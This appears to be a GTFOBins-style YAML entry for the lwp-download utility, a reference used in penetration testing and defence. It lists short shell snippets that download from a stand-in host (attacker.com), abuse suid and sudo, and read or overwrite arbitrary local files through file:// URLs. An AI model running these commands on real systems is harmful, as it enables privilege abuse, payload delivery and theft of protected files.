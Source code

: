 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  suid:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo lwp-download $URL $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=file_to_read
        TF=$(mktemp)
        lwp-download "file://$LFILE" $TF
        cat $TF
  file-write:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        lwp-download file://$TF $LFILE
---
```

